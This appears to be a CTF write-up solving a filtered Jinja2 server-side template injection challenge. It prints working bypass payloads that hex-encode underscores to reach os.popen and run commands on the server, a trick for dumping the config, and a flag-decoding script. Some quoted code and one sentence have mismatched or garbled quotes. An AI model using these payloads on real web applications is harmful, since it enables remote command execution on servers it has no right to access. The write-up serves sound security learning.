 #+TITLE: Advent of CTF - Challenge 17
#+SUBTITLE: "Gatekeeper"

* Challenge

This challenge is the same as [[../challenge-16/index.org][Challenge 16]], but now the input is heavily filtered.

What you will learn:

- Bypassing filters

* Solution
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/credmp.github.io/writeups/advent-of-ctf/challenge-17/index_att
:END:

#+CAPTION: The start of the challenge
[[file:index_att/start.png]]

Attempting to use the same payloads as before will result in an error message saying that the entered emoji is on a deny list.

#+CAPTION: Denied
[[file:index_att/denied.png]]

Apparently there is some form of character checking happening. Running through various combinations will lead to a list of =._"= and the word =config=.

In fact, in the challenge code this is implemented as following:

#+CAPTION: The not allowed characters
#+begin_src python
if ".' in p or '_' in p or "'" in p or 'config' in p:
#+end_src

The cheat sheet on [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass][Payload All The Things]] has a great reference on bypassing filters. Following this guide will get you most of the way. The final payload that is suggested is:

#+CAPTION: Payload all the things payload
#+begin_src javascript
{{request|attr("application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
#+end_src

But obviously there are illegal characters in it. The ="= can be replaced with ="= however and this payload will work.

#+CAPTION: Adjusted payload for allowed characters
#+begin_src javascript
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}
#+end_src

#+CAPTION: Bypassing the deny list
[[file:index_att/ssti-bypass-id.png]]

From here the challenge is the same as the previous one.

#+CAPTION: Payload to get the sources
#+begin_src javascript
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cat app**")|attr("read")()}}
#+end_src

The source does not contain the flag however, this needs to be taken from the =config= variable again. Searching the internet will yield several ways of accessing the config dictionary. Below is one.

#+CAPTION: A bypass for config
#+begin_src javascript
{{self|attr("\x5f\x5fdict\x5f\x5f")}}
#+end_src

In the source code the magic function is just a little bit different from the last one, but the proces is the same; extract from the source and run in a python shell.

#+CAPTION: The magic function
#+begin_src python
def magic(flag, key): 
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[x]) ^ ord(key[::-1][x])) for x in range(len(flag)))
 
flag="C\x1eS\x1dwsef}j\x057i\x7fo{D)'dO,+sutm3F"
magic(flag, "46e505c983433b7c8eefb953d3ffcd196a08bbf9")
#+end_src

Go and get the badge as well.

[[./index_att/badge.png]]


Go back to the [[../../../index.org][homepage]].
